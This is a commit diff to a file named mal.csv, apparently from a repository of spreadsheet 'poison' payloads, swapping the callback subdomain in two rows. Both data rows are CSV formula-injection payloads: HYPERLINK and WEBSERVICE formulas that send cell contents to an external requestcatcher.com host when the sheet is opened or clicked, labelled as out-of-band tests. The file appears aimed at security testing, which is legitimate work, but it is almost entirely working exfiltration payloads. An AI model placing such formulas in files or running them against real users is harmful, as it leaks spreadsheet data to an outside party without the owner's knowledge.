

Before and after one commit to DeadmanXXXII/Poison, a CSV file: mal.csv, drawn as a sheet.

Commit message:
Update mal.csv

```diff
--- a/mal.csv
+++ b/mal.csv
@@ -1,3 +1,3 @@
 "Product","Value","Description"
-"Vulnerable Item","100","=HYPERLINK(\"https://deadmanxxxii.requestcatcher.com/log?data=\"&A2&\"_\"&B2,\"Click for info\")"
-"Sensitive Data","Confidential","=WEBSERVICE(CONCATENATE(\"https://deadmanxxxii.requestcatcher.com/?data=\",A1))"
+"Vulnerable Item","100","=HYPERLINK(\"https://voodoo.requestcatcher.com/log?data=\"&A2&\"_\"&B2,\"OOBTEST\")"
+"Sensitive Data","Confidential","=WEBSERVICE(CONCATENATE(\"https://voodoo.requestcatcher.com/?HackrateOOBtest=\",A1))"
```
